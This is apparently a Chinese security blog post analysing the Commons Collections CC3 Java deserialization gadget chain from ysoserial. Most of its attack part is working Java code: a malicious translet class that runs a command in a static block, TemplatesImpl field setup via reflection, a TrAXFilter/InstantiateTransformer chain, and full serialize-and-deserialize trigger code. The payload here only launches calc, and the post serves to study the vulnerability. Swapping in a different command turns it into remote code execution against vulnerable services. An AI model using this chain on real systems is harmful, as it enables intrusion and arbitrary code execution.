```yaml
---
title: JAVA安全:CC3链
---
```


*作者：Narcher*	*时间：2024/3/18*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

CC3这条链子和之前的几条链子不太一样，它更改了命令执行的方式。之前的几条链子都是反射调用Runtime.getRuntime.exec("calc")执行的命令，而CC3则是利用的动态类加载。简单来说，就是Java文件无法直接运行，需要编译成.class文件，再通过加载器加载到Java虚拟机的内存空间中才能运行。其核心便是ClassLoader类，其中的loadClass-->findClass-->defineClass三个方法的调用是必须的，最重要的是defineClass方法。

说了那么多，不如直接写一个例子看一看：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710771803258.png" alt="1710771803258" style="zoom: 67%;" />

其中，CC3_test中则是：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710771886159.png" alt="1710771886159" style="zoom: 50%;" />

emmm.......

了解了这些之后，应该就差不多能理解整条CC3链子了，我们直接进入正文。



## 正文

和往常一样，我们先看一下ysoserial中链子的调用流程：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710772037318.png" alt="1710772037318" style="zoom:50%;" />

可见其中对CC1的后半部分保留完整，大致是在LazyMap.get方法的触发之前的流程给改了，我们就一点点看吧。

### 1.TemplatesImpl部分

首先我们要找重写了defineClass方法且可序列化的类，且参数可控，往上便找到了TemplatesImpl:

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710810342680.png" alt="1710810342680" style="zoom:67%;" />

然后就按正常流程，一点点往上找就完了。

于是便找到了调用defineClass方法的地方：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710810463141.png" alt="1710810463141" style="zoom: 50%;" />

关键代码就这么多，反正就是defineTransletClasses方法中的for循环里调用了，且_bytecodes可控。

再向上找：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710813072129.png" alt="1710813072129" style="zoom: 67%;" />

找到了getTransletInstance方法，再向上找便找到了newTransformer：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710812724055.png" alt="1710812724055" style="zoom:67%;" />

看到这里，就基本上完成了，我们只需要注意一下传参，链子的大致形状就差不多确定了。

传参部分呢，我们从前往后看，正常来说看到的便只需赋值\_name参数，让它不要返回null，并且\_class参数不能传，因为我们要的就是defineTransletClasses方法，最关键的\_bytecode必须传，因为我们要用它来作为执行代码的载体。这样编译好了之后会发现报错，调进去一看可看到问题出在调用\_factory参数的地方，那么这个参数我们也要传。先看一下代码中它本身应该是什么：

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710813705054.png" alt="1710813705054" style="zoom:67%;" />

是TransformerFactoryImpl类的实例，那我们就传这个。

那么这部分的链子就构造的差不多了：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
templates.newTransformer();
```

对了，这里还有一点要提醒，编译执行代码的class文件的java文件需要继承AbstractTranslet这个类，不然就会报空指针错误，继承之后还让实现一下接口，我们实现了就好了。

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710814078344.png" alt="1710814078344" style="zoom:67%;" />

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710814148732.png" alt="1710814148732" style="zoom:67%;" />

java文件内容差不多是这样：

```java
public class CC3_test extends AbstractTranslet {
    static {
        try{
            Runtime.getRuntime().exec("calc");
        }catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

剩下的话，除了要注意一下要把ChainedTransformer的内容改一下，使其触发templates的newTransformer方法就好了。我们就直接把CC1链子的前半部分拿过来：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
// templates.newTransformer();
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(templates),
        new InvokerTransformer("newTransformer",null,null),
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
LazyMap innerMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
//反射获取AnnotationInvocationHandler类
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class,innerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC3.txt"));
oos.writeObject(handler);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC3.txt"));
ois.readObject();
```

看起来不错，但和ysoserial中的链子还是有差别，我们需要对其进行更改，把InvokerTransformer给用其他调用newTransformer的类替代掉，因为有的jdk版本中对InvokerTransformer做了过滤。ysoserial中用的是TrAXFilter和InstantiateTransformer。我们一个个看，先看TrAXFilter，再看InstantiateTransformer。

### 2.ChainedTransformer部分

#### 2.1 TrAXFilter部分

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710815926397.png" alt="1710815926397" style="zoom:67%;" />

可见其构造器，我们直接传入templates对象便可调用其newTransformer方法，只是可惜TrAXFilter没有实现Serializable接口，只能用TrAXFilter配合反射来解决这个问题，于是便有了InstantiateTransformer。

#### 2.2 InstantiateTransformer部分

<img src="JAVA%E5%AE%89%E5%85%A8CC3%E9%93%BE/1710816158402.png" alt="1710816158402" style="zoom:67%;" />

关键代码就这些，我们只需要把TrAXFilter.class作为input参数传进去就好了，至于paramTypes我们可以传一个new Class[]{Templates.class}，而参数就直接传构造好的templates，把链子构造起来就是如下模样：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
```

### 3.构造链

我们直接把ChainedTransformer部分的修改给添上去就好了：

```java
TemplatesImpl templates = new TemplatesImpl();
Class tc = templates.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates,"aaaa");
Field bytecodesField = tc.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("C://Users//Narcher//IdeaProjects//CC3_test.class"));
byte[][] codes = {code};
bytecodesField.set(templates,codes);
Field tfactoryField = tc.getDeclaredField("_tfactory");
tfactoryField.setAccessible(true);
tfactoryField.set(templates, new TransformerFactoryImpl());
// templates.newTransformer();
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(TrAXFilter.class),
        new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
LazyMap innerMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
//反射获取AnnotationInvocationHandler类
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class,innerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC3.txt"));
oos.writeObject(handler);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC3.txt"));
ois.readObject();
```

这样一来，CC3也便大功告成了。
